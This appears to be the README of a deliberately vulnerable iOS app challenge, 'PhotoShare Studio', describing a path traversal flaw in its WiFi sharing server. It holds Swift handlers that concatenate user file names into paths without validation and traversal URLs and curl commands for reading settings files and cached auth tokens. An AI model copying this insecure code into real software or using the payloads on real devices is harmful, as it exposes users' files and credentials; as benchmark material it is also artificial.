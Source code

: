 # oxo-ios-ben9: iOS Path Traversal Vulnerability

## Challenge Details

### Description

PhotoShare Studio is a modern iOS photo management application that provides users with comprehensive photo organization, album management, and wireless sharing capabilities. The app features a clean, intuitive interface following Apple's Human Interface Guidelines and includes professional-grade functionality for managing personal photo collections.

**Note**: This app mimics the functionality of popular apps like "Photo Transfer App" which create WiFi HTTP servers for wireless photo transfer via web browser - a common and realistic approach used by many App Store applications.

The application demonstrates a critical **iOS Path Traversal** vulnerability where the WiFi sharing server fails to properly validate file paths, allowing attackers to access files outside the intended directory through malformed paths containing `../` sequences or direct path manipulation.

Key features of the application:
- Photo album organization with customizable categories
- Professional photo management interface
- WiFi-based photo sharing for wireless device transfer
- Album browsing with collection view layouts
- Metadata management and file organization
- Secure local storage with intentional path validation flaw

### Vulnerability Type and Category
- **Type:** Path Traversal / Directory Traversal
- **Category:** Improper Input Validation (CWE-22)
- **Platform:** iOS (Swift/UIKit)

### Difficulty
Medium

## Vulnerability Overview

The application's WiFi sharing server processes file download requests without proper path validation, allowing attackers to traverse directories and access sensitive files outside the intended photo storage areas. This vulnerability affects the `WiFiSharingServer.swift` component where user-controlled file path parameters are directly concatenated with base directories.

**Attack Vector:  Path Traversal**

**Brief Explanation**: PhotoShare Studio provides a WiFi sharing feature that starts a local web server on port 8080. The server processes file download requests with user-supplied file names directly without validating if the requested paths stay within the intended album directories.


## Exploitation

### Attack Scenarios

**1. Malicious Network Access**
- Attacker connects to same WiFi network as victim
- Discovers device IP running PhotoShare Studio WiFi server
- Crafts malicious URLs to access files outside photo directories

**2. Path Traversal Examples**
```bash
# Access app settings (realistic iOS app file)
http://[device-ip]:8080/photo?file=../PhotoShare_Settings.plist

# Access cached authentication tokens
http://[device-ip]:8080/download?file=../cached_auth.json

# Access photo database
http://[device-ip]:8080/photo?file=../PhotoMetadata.sqlite

# Access backup manifest
http://[device-ip]:8080/download?file=../backup_manifest.plist
```

**3. Social Engineering**
- Send malicious links to target users
- Embed paths in shared content or messaging
- Exploit trust in legitimate-looking photo sharing URLs

### Testing Instructions

1. **Start the app** in iOS Simulator or on device
2. **Tap "Start WiFi Sharing"** to activate the vulnerable server
3. **Note the device IP address** from WiFi settings
4. **Open web browser** and navigate to `http://[device-ip]:8080`
5. **Exploit the vulnerability** using crafted URLs:

```bash
# From simulator terminal or browser
curl "http://127.0.0.1:8080/photo?file=../PhotoShare_Settings.plist"
curl "http://127.0.0.1:8080/download?file=../cached_auth.json"

# Browser exploitation examples
http://127.0.0.1:8080/photo?file=../PhotoMetadata.sqlite
http://127.0.0.1:8080/download?file=../backup_manifest.plist
```

**Expected Result:** Successfully retrieve files outside the intended Albums directory, including app configuration, user preferences, and cached sensitive data.

## Technical Details

### Vulnerable Code Locations

**Primary Vulnerability - WiFiSharingServer.swift:89-103**
```swift
// VULNERABLE: Direct path concatenation without validation
private func handleFileDownload(_ fileName: String) -> Data {
    let documentsPath = PhotoManager.shared.getDocumentsDirectory()
    let filePath = documentsPath.appendingPathComponent("Albums/\(fileName)")
    // No validation of fileName parameter allows path traversal
    
    if FileManager.default.fileExists(atPath: filePath.path) {
        let fileData = try Data(contentsOf: filePath)
        // Returns any accessible file
    }
}
```

**Secondary Vulnerability - WiFiSharingServer.swift:105-120**
```swift
// VULNERABLE: Even more direct path traversal
private func handlePhotoDownload(_ fileName: String) -> Data {
    let documentsPath = PhotoManager.shared.getDocumentsDirectory()
    let photoPath = documentsPath.appendingPathComponent(fileName)
    // Direct path concatenation without any directory restrictions
}
```

### Application Architecture
- **Language**: Swift
- **Framework**: UIKit with Storyboard
- **Networking**: Foundation Network framework for HTTP server
- **Storage**: NSFileManager for file system operations
- **UI Pattern**: Navigation controller with collection views

### Key Components
- `PhotoManager.swift` - File management and sample data creation
- `WiFiSharingServer.swift` - Vulnerable HTTP server implementation
- `ViewController.swift` - Main photo gallery interface
- `AlbumViewController.swift` - Individual album photo browsing
- `Main.storyboard` - Professional UI layout and navigation